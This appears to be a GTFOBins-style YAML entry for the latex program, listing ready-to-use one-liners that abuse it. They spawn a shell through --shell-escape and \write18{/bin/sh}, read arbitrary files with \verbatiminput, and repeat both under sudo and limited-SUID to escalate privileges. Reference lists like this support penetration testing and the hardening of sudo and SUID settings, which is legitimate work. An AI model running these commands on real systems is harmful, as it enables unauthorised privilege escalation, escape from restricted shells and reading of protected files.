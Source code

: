 ```yaml
---
functions:
  shell:
    - code: |
        latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
    - code: |
        sudo latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---
```


